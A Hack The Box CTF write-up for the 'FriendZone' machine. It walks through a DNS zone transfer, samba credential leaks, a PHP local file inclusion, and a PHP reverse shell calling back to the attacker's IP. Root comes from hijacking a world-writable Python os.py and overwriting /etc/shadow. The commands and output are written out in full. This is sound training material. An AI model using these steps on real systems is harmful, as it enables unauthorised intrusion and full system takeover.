








hackthebox FriendZone
Released: 09 Feb 2019 / Pwned: May 21st 2019 - [+] Solved whilst Active

FriendZone has both CTF and real-life elements and it finds a pretty good balance between the two. The vulns throughout the box are faily common ones but they require a little tweaking and thinking in order to get working.
Summary
• nmap scan using default scripts, -sC, to get some valuable information
• follow all the rabbit holes
• edit /etc/hosts in order to access parts of the site
• perform a dns zone transfer in order to find some hidden domain names
• find some credntials in samba
• log in as an administrator
• base64 encode using php://filter in order to find LFI
• upload shell, execute LFI and get a shell on the system
• find some world-writable files
• run pspy to find a speedy script
• modify what that script imports in order to code execution as root
• modify /etc/shadow to get root
1) Nmap
Nmap acted a little funny for me on this box, so my scans looked a little different than usual.
Initial scan:
nmap -sV 10.10.10.123
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/friendzone# nmap -sV -sC 10.10.10.123
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-20 11:44 BST
Nmap scan report for friendzone.red (10.10.10.123)
Host is up (0.044s latency).
Not shown: 993 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
| 256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_ 256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp open domain ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_ bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open ssl/http Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: FriendZone escape software
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after: 2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
| http/1.1
445/tcp open netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -1h00m00s, deviation: 1h43m54s, median: -1s
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
| OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
| Computer name: friendzone
| NetBIOS computer name: FRIENDZONE\x00
| Domain name: \x00
| FQDN: friendzone
|_ System time: 2019-05-20T13:44:36+03:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2019-05-20 11:44:37
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.14 seconds
22/ssh is good to take note of.
53/dns, 80/http, 139/samba and 443/https are all useful to us.
The title of the box - friendzone, combined with port 53 being open is a big hint for this box.
2) Web
Visit the site first - http://10.10.10.123
This is another hint.
friendzoneportal.red is a rabbit hole, instead you should be looking at your nmap results and see that port 443 gives friendzone.red as the commonName on the SSL cert.
Edit your hosts file so that the IP of the box, 10.10.10.123, points to friendzone.red.
NOTE: be careful with this.
friendzone.red also points to a legitimate site, so if you're running scans make sure you specify the IP and not the hostname so you don't go scanning real websites.
root@gotham:~/ctf/friendzone# nano /etc/hosts
...
10.10.10.123 friendzone.red
...
Visit https://friendzone.red and we'll see that we're “ready to escape from friend zone�.

This page is also a rabbit hole.
3) DNS Zone transfer
At this point, the word ‘zone’ should be at the forefront of your mind. Have a look at the DNS server running on port 53.
root@gotham:~/ctf/friendzone# dig @10.10.10.123 friendzone.red
; <<>> DiG 9.11.5-P4-5-Debian <<>> @10.10.10.123 friendzone.red
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 22016
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3
;; WARNING: recursion requested but not available
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 7cfbf720f58bf359daf7bf6c5ce28f3b23114c177f4c17dd (good)
;; QUESTION SECTION:
;friendzone.red. IN A
;; ANSWER SECTION:
friendzone.red. 604800 IN A 127.0.0.1
;; AUTHORITY SECTION:
friendzone.red. 604800 IN NS localhost.
;; ADDITIONAL SECTION:
localhost. 604800 IN A 127.0.0.1
localhost. 604800 IN AAAA ::1
;; Query time: 44 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Mon May 20 12:27:56 BST 2019
;; MSG SIZE rcvd: 154
'zone' is mentioned a lot. Try a DNS zone transfer:
root@gotham:~/ctf/friendzone# host -l friendzone.red 10.10.10.123
Using domain server:
Name: 10.10.10.123
Address: 10.10.10.123#53
Aliases:
friendzone.red has IPv6 address ::1
friendzone.red name server localhost.
friendzone.red has address 127.0.0.1
administrator1.friendzone.red has address 127.0.0.1
hr.friendzone.red has address 127.0.0.1
uploads.friendzone.red has address 127.0.0.1
Nice :) We found some subdomains.
Edit your hosts so you can access them.
root@gotham:~/ctf/friendzone# nano /etc/hosts
...
10.10.10.123 friendzone.red
10.10.10.123 administrator1.friendzone.red
10.10.10.123 hr.friendzone.red
10.10.10.123 uploads.friendzone.red
...
4) administrator1.friendzone.red
uploads.friendzone.red is a rabbit hole (one that caused me a lot of bother).
hr.friendzone.red wouldn't load for me, so administrator1.friendzone.red is where we should page.

Alas, a login page.
At this point you need to go back to enumeration and have a look at the ports you haven't checked yet.
5) 139/samba
Connect to the samba share with no password.
root@gotham:~/ctf/friendzone# smbclient -L 10.10.10.123
Enter WORKGROUP\roots password:
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
Files Disk FriendZone Samba Server Files /etc/Files
general Disk FriendZone Samba Server Files
Development Disk FriendZone Samba Server Files
IPC$ IPC IPC Service (FriendZone server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
Server Comment
--------- -------
Workgroup Master
--------- -------
WORKGROUP FRIENDZONE
Have a look at the shares, the interesting information is in general.
root@gotham:~/ctf/friendzone# smbclient //10.10.10.123/general
Enter WORKGROUP\roots password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Wed Jan 16 20:10:51 2019
.. D 0 Wed Jan 23 21:51:02 2019
creds.txt N 57 Wed Oct 10 00:52:42 2018
9221460 blocks of size 1024. 6447304 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> quit
root@gotham:~/ctf/friendzone# cat creds.txt
creds for the admin THING:
admin:WORKWORKHhallelujah@#
Credentials!
“admin THING� is presumably administrator1.friendzone.red. Go log in.
6) LFI
We arrive at administrator1.friendzone.red/dashboard.php

Use the parameters the page provides to “show the image�.
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp

The timestamp that's being printed at the bottom of the page is unix epoch time, which made me think there might be some system commands going on within that parameter. That's not the case, but that was my thought process.
After being all aboard the struggle bus for a while, I considered that maybe timestamp in the pagename parameter was a php file. I tried base64-encoding it in the hope that i might be able to read its contents...
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=timestamp

And we can!
By base64 encoding php files using the php://filter function, you can prevent the php file from executing and be able to read it.
root@gotham:~/ctf/friendzone/443http# echo "PD9waHAKCgokdGltZV9maW5hbCA9IHRpbWUoKSArIDM2MDA7CgplY2hvICJGaW5hbCBBY2Nlc3MgdGltZXN0YW1wIGlzICR0aW1lX2ZpbmFsIjsKCgo/Pgo=" > timestamp.php.b64
root@gotham:~/ctf/friendzone/443http# cat timestamp.php.b64 | base64 -d > timestamp.php
root@gotham:~/ctf/friendzone/443http# cat timestamp.php
<?php
$time_final = time() + 3600;
echo "Final Access timestamp is $time_final";
?>
Nothing useful there, but dashboard.php might be interesting.
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=dashboard

root@gotham:~/ctf/friendzone/443http# echo "PD9waHAKCi8vZWNobyAiPGNlbnRlcj48aDI+U21hcnQgcGhvdG8gc2NyaXB0IGZvciBmcmllbmR6b25lIGNvcnAgITwvaDI+PC9jZW50ZXI+IjsKLy9lY2hvICI8Y2VudGVyPjxoMz4qIE5vdGUgOiB3ZSBhcmUgZGVhbGluZyB3aXRoIGEgYmVnaW5uZXIgcGhwIGRldmVsb3BlciBhbmQgdGhlIGFwcGxpY2F0aW9uIGlzIG5vdCB0ZXN0ZWQgeWV0ICE8L2gzPjwvY2VudGVyPiI7CmVjaG8gIjx0aXRsZT5GcmllbmRab25lIEFkbWluICE8L3RpdGxlPiI7CiRhdXRoID0gJF9DT09LSUVbIkZyaWVuZFpvbmVBdXRoIl07CgppZiAoJGF1dGggPT09ICJlNzc0OWQwZjRiNGRhNWQwM2U2ZTkxOTZmZDFkMThmMSIpewogZWNobyAiPGJyPjxicj48YnI+IjsKCmVjaG8gIjxjZW50ZXI+PGgyPlNtYXJ0IHBob3RvIHNjcmlwdCBmb3IgZnJpZW5kem9uZSBjb3JwICE8L2gyPjwvY2VudGVyPiI7CmVjaG8gIjxjZW50ZXI+PGgzPiogTm90ZSA6IHdlIGFyZSBkZWFsaW5nIHdpdGggYSBiZWdpbm5lciBwaHAgZGV2ZWxvcGVyIGFuZCB0aGUgYXBwbGljYXRpb24gaXMgbm90IHRlc3RlZCB5ZXQgITwvaDM+PC9jZW50ZXI+IjsKCmlmKCFpc3NldCgkX0dFVFsiaW1hZ2VfaWQiXSkpewogIGVjaG8gIjxicj48YnI+IjsKICBlY2hvICI8Y2VudGVyPjxwPmltYWdlX25hbWUgcGFyYW0gaXMgbWlzc2VkICE8L3A+PC9jZW50ZXI+IjsKICBlY2hvICI8Y2VudGVyPjxwPnBsZWFzZSBlbnRlciBpdCB0byBzaG93IHRoZSBpbWFnZTwvcD48L2NlbnRlcj4iOwogIGVjaG8gIjxjZW50ZXI+PHA+ZGVmYXVsdCBpcyBpbWFnZV9pZD1hLmpwZyZwYWdlbmFtZT10aW1lc3RhbXA8L3A+PC9jZW50ZXI+IjsKIH1lbHNlewogJGltYWdlID0gJF9HRVRbImltYWdlX2lkIl07CiBlY2hvICI8Y2VudGVyPjxpbWcgc3JjPSdpbWFnZXMvJGltYWdlJz48L2NlbnRlcj4iOwoKIGVjaG8gIjxjZW50ZXI+PGgxPlNvbWV0aGluZyB3ZW50IHdvcm5nICEgLCB0aGUgc2NyaXB0IGluY2x1ZGUgd3JvbmcgcGFyYW0gITwvaDE+PC9jZW50ZXI+IjsKIGluY2x1ZGUoJF9HRVRbInBhZ2VuYW1lIl0uIi5waHAiKTsKIC8vZWNobyAkX0dFVFsicGFnZW5hbWUiXTsKIH0KfWVsc2V7CmVjaG8gIjxjZW50ZXI+PHA+WW91IGNhbid0IHNlZSB0aGUgY29udGVudCAhICwgcGxlYXNlIGxvZ2luICE8L2NlbnRlcj48L3A+IjsKfQo/Pgo=" > dashboard.b64
root@gotham:~/ctf/friendzone/443http# cat dashboard.b64 | base64 -d > dashboard.php
root@gotham:~/ctf/friendzone/443http# cat dashboard.php
<?php
//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];
if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
echo "<br><br><br>";
echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
if(!isset($_GET["image_id"])){
echo "<br><br>";
echo "<center><p>image_name param is missed !</p></center>";
echo "<center><p>please enter it to show the image</p></center>";
echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
}else{
$image = $_GET["image_id"];
echo "<center><img src='images/$image'></center>";
echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
include($_GET["pagename"].".php");
//echo $_GET["pagename"];
}
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
There's our file inclusion vulnerability - include($_GET["pagename"].".php")
We can only include files that end in .php.
Part of why this took me so long to solve was because I first testing the LFI by trying to include a text file.
7) LFI to shell
Now we need to upload a shell that we can inlcude in our LFI.
https://uploads.friendzone.red/ is a rabbit hole, all it does is print a timestamp and a string.

Instead, your efforts should be directed towards samba.
root@gotham:~/ctf/friendzone# smbclient -L 10.10.10.123
Enter WORKGROUP\roots password:
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
Files Disk FriendZone Samba Server Files /etc/Files
general Disk FriendZone Samba Server Files
Development Disk FriendZone Samba Server Files
IPC$ IPC IPC Service (FriendZone server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
Server Comment
--------- -------
Workgroup Master
--------- -------
WORKGROUP FRIENDZONE
This line - FriendZone Samba Server Files /etc/Files - hints at the file path of where your shell will be uploaded.
Browsing the Development share, you find that you can put files.
Prep a php reverse shell and upload it to the Development share.
root@gotham:~/ctf/friendzone# cp /usr/share/webshells/php/php-reverse-shell.php .
root@gotham:~/ctf/friendzone# mv php-reverse-shell.php memonkey.php
root@gotham:~/ctf/friendzone# nano memonkey.php
...
$ip = '10.10.13.120'; // CHANGE THIS
$port = 4441; // CHANGE THIS
...
root@gotham:~/ctf/friendzone# smbclient //10.10.10.123/Development
Enter WORKGROUP\roots password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Mon May 20 17:03:52 2019
.. D 0 Wed Jan 23 21:51:02 2019
rootfs D 0 Fri Oct 5 21:41:10 2018
tesst.php A 30 Mon May 20 16:50:52 2019
monkey.php A 3461 Mon May 20 16:13:36 2019
r.php A 5494 Mon May 20 16:14:20 2019
she.php A 5501 Mon May 20 16:27:29 2019
test.txt A 4 Mon May 20 16:35:38 2019
revshell A 5495 Mon May 20 16:14:41 2019
revshell.php A 5495 Mon May 20 16:18:01 2019
9221460 blocks of size 1024. 6432692 blocks available
smb: \> put memonkey.php
putting file memonkey.php as \memonkey.php (34.0 kb/s) (average 34.0 kb/s)
Prep to receive the shell by starting a listener:
root@gotham:~/ctf/friendzone# nc -lvnp 4441
listening on [any] 4441 ...
And using the local file inclusion vulnerability from dashboard.php, hit your newly uploaded php shell.
You should get a callback on your listener!
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/memonkey.php
...
connect to [10.10.13.120] from (UNKNOWN) [10.10.10.123] 40784
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
19:19:37 up 1:08, 1 user, load average: 0.04, 0.10, 0.12
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
friend pts/1 10.10.15.84 18:17 1.00s 1.24s 0.05s nano /usr/lib/python2.7/os.py
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ cd /home
$ ls
friend
$ cd friend
$ ls
user.txt
$ cat user.txt
a9ed...
8) www-data to friend
There were a lot of elements to the website in this challenge, so I decided to go back and look at it once I had a shell.
Turns out there's some valuable credentials in there.
$ cd /var/www/
$ ls
...
$ cat /var/www/mysql_data.conf
for development process this is the mysql creds for user friend
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
I remembered SSH was running, so decided to try ssh as friend for a better shell.
root@gotham:~/ctf/friendzone# ssh friend@10.10.10.123
friend@10.10.10.123s password: Agpyu12!0.213$
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$
And it works :)
9) python privesc
I don't know how you can figure out how to root this machine without using pspy, unless you're running on serious guesswork. It's definitely possible to guess, but it would be frustrating.
Have a look for world-writeable folders and files
friend@FriendZone:~$ find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print 2>/dev/null
/etc/sambafiles
/etc/Development
/usr/lib/python2.7
friend@FriendZone:~$ find / -xdev -type f \( -perm -0002 -a ! -perm -1000 \) -print 2>/dev/null
/etc/Development/myshell.php
/etc/Development/rs.php
/usr/lib/python2.7/os.py
os.py is an odd result, users shouldn't be able to write to python libraries.
With the lack of current information we have, it's faily unclear what we can do with os.py at the moment. The hope is that a root python script somewhere, one that we can execute, is importing os.py.
This where pspy becomes useful. It's used monitors linux processes.
wget it to your attacking machine and serve it.
root@gotham:~/ctf/friendzone# wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32s
...
root@gotham:~/ctf/friendzone# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Download it onto your target machine and run it.
friend@FriendZone:/tmp$ wget http://10.10.13.120:8000/pspy32s
friend@FriendZone:/tmp$ chmod +x pspy32s
friend@FriendZone:/tmp$ ./pspy32s
After watching pspy for a bit, you'll see this:
/bin/sh -c /opt/server_admin/reporter.py
And watching a bit longer, you'll see that this python script gets executed every few minutes
Go have a look at the script.
friend@FriendZone:/tmp$ ls -alh /opt/server_admin/
total 12K
drwxr-xr-x 2 root root 4.0K Jan 24 00:57 .
drwxr-xr-x 3 root root 4.0K Oct 6 2018 ..
-rwxr--r-- 1 root root 424 Jan 16 22:03 reporter.py
It's owned by root, but we can read it.
friend@FriendZone:/tmp$ cat /opt/server_admin/reporter.py
#!/usr/bin/python
import os
to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"
print "[+] Trying to send email to %s"%to_address
#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''
#os.system(command)
# I need to edit the script later
# Sam ~ python developer
Because of all the comments, this script doesn't actually do anything except import os, declare 2 variables and print a line.
HOWEVER, import os is all we need.
When libraries are imported in python, they get executed.
If we modify os.py, we should be able to get root code execution because the reporter.py runs as root and imports the os library.
We know that reporter.py runs as root because it's owned by root and because only root has execute permissions on the script.
-rwxr--r-- 1 root root 424 Jan 16 22:03 reporter.py
First, test whether we really do we have code execution as root.
At the end of os.py, just after the except NameError line, add your code.
The system function is defined earlier in the os.py library and is used to execute system commands.
friend@FriendZone:~$ mkdir /tmp/tests
friend@FriendZone:~$ nano /usr/lib/python2.7/os.py
...
except NameError: # statvfs_result may not exist
pass
system("touch /tmp/tests/touchtest.txt")
friend@FriendZone:~$ ls -l /tmp/tests/
-rw-r--r-- 1 root root 0 May 21 13:34 touchtest.txt
Nice! We can execute commands as root.
It should be pretty trivial to get root at this point considering we can code execution as root, but of the many things I tried i couldn't get any of them to work: reverse shells, suid binaries, adding friend to sudo group etc.
I have no idea why.
The only thing that ended up working was modifying /etc/shadow with a new password.
Reading and copying files worked fine, that's all you need to be able to modify /etc/shadow.
Get a copy of /etc/shadow to edit.
friend@FriendZone:~$ nano /usr/lib/python2.7/os.py
...
except NameError: # statvfs_result may not exist
pass
system("cp /etc/shadow /tmp/tests/shadow.orig")
system("touch /tmp/tests/shadowGET.txt")
Wait for reporter.py to run and you should see a copy of shadow.
friend@FriendZone:~$ ls -l /tmp/tests/
total 1128
-rw-r--r-- 1 root root 0 May 21 14:48 shadowGET.txt
-rw-r--r-- 1 root root 994 May 21 14:48 shadow.orig
-rw-r--r-- 1 root root 0 May 21 13:34 touchtest.txt
Make a a new root password on your attacking machine, follwing the same configuration as found in /etc/passwd (sha-512, 8 character salt)
root@gotham:~/ctf/friendzone# mkpasswd -m sha-512 -S saltsalt -s
Password: redkeydoor
$6$saltsalt$12qfetqtkQFyOVBYUBQrvu07K7uDSZlzHhickgT.hMcbaUprRpT9nXVEe6C5fmNNVv4M0loc/cS.WmgMe3IZh1
Make a copy of shadow.orig and copy/paste the newly generated sha-512 hash into it, replacing root's hash.
friend@FriendZone:/tmp/tests$ nano shadow.orig
The root entry in my modified /etc/shadow looked like this (the rest of the file was untouched):
root:$6$saltsalt$12qfetqtkQFyOVBYUBQrvu07K7uDSZlzHhickgT.hMcbaUprRpT9nXVEe6C5fmNNVv4M0loc/cS.WmgMe3IZh1:17813:0:99999:7:::
Save your modified file as shadow.new
Modify os.py to copy over our new /etc/shadow
friend@FriendZone:~$ nano /usr/lib/python2.7/os.py
...
except NameError: # statvfs_result may not exist
pass
system("cp /tmp/tests/shadow.new /etc/shadow")
system("touch /tmp/tests/shadowTHROW.txt")
I'm using shadowTHROW.txt as a notification to tell me when /etc/shadow has been overwritten.
Watch for shadowTHROW.txt in /tmp/tests/, and once it's there /etc/shadow will have been overwritten.
friend@FriendZone:~$ ls -l /tmp/tests/
total 1128
-rw-r--r-- 1 root root 0 May 21 14:48 shadowGET.txt
-rw-r--r-- 1 root root 0 May 21 14:53 shadowTHROW.txt
-rw-r--r-- 1 root root 994 May 21 14:48 shadow.orig
-rw-r--r-- 1 root root 0 May 21 13:34 touchtest.txt
Finally, su to root using the password we created.
friend@FriendZone:/tmp/tests$ su root
Password: redkeydoor
root@FriendZone:/tmp/tests# id
uid=0(root) gid=0(root) groups=0(root)
root@FriendZone:/tmp/tests# cd /root
root@FriendZone:~# ls
certs root.txt
root@FriendZone:~# cat root.txt
b0e6...